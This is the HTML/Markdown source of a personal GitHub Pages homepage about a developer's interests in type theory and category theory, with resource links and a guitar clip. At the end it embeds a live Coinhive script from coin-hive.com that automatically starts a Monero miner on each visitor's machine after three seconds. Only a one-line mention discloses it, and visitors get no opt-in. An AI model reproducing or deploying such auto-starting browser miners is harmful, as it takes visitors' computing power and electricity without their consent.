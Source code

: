 ```yaml
---
layout:
---
```


<!--
i apologize this site watches back
-->

<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>
Thanks for the visit and please feel free to look around.

I am currently most interested in effectively engineering complex<br>
software via application of category theory and type theory.

<!--
In particular, I am studying language, compilation, and blockchain implementation.
-->
<!--
Other interests include AI/ML, genomics, and the design and enjoyment of games.
-->

<!--
(mailto:bohadi@users.noreply.github.com)
if you would like to contact me
-->

some learning resources I find helpful:<br>
[PFPL](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[HoTT](https://homotopytypetheory.org/book/)<br>
[CTFP](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[oplss17](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[ncatlabwiki](https://ncatlab.org/nlab/show/HomePage)<br>
[ParCon](http://chimera.labs.oreilly.com/books/1230000000929/index.html)<br>
[AOSA/ghc](http://www.aosabook.org/en/ghc.html)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>


I enjoy playing the guitar, here is a short recording I made.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

<!--
[this site, projects repo](https://github.com/bohadi)
-->

and some nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>

<!--
some old stories:<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

[other fiction i (did) enjoy](/movies)<br>
-->

<br>
Finally, this page can mine Monero on your machine.<br>
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);

</script>
